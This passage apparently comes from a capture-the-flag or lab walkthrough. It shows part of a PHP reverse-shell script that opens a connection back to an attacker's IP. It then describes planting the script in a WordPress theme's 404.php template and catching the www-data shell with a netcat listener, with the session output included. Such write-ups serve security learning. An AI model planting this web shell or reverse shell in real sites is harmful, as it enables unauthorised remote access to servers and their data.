 ```bash

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
.
.
.
.
```

Change the file content in `/twentythirteen/404.php` template. Then update the file and listen. Go to the file directory and we are in into the web shell!!

```bash
john@hydrogrencorp:~$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.8.118] from (UNKNOWN) [192.168.8.118] 38529
Linux hydrogrencorp 3.2.0-6-amd64 #1 SMP Debian 3.2.102-1 x86_64 GNU/Linux
 05:04:49 up 2 days, 19:19,  2 users,  load average: 0.06, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
john     pts/0    192.168.22.22    04:06   31:52   0.10s  0.00s sshd: john [pri
john     pts/2    192.168.22.73    04:50    8.00s  0.00s  0.00s nc -lnvp 4444
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: no job control in this shell
sh-4.2$ 
```
